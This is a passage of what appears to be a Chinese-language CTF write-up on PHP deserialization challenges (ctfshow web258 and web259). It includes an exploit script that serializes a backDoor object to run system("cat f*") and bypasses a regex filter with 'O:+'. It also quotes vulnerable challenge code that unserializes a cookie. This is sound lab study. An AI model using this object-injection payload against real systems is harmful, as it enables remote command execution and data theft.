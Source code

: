 这样序列化后，出现了不可见字符
所以一般需要urlencode编码，当然在本地存储耿采用base64编码

处理不可见字符

```php
1.可以使用urlencode
2.也可以将private或者protected改为public
3.或者将序列化后的字符串中，
private序列化后变量前加\x00类名\x00 		protected序列化后变量前加\x00*\x00
```

### web258

代码

```php
if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

绕过正则，在O：后面加一个+来绕过正则，且

处理不可见字符，可以将private改成public

```php
<?php
class ctfShowUser{
    public $class;
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code='system("cat f*");';
}
$a=new ctfShowUser();
$b=serialize($a);
$b=str_replace('O:','O:+',$b);
echo urlencode($b);
```
###  web259

代码

```PHP
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);

if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
?>
```
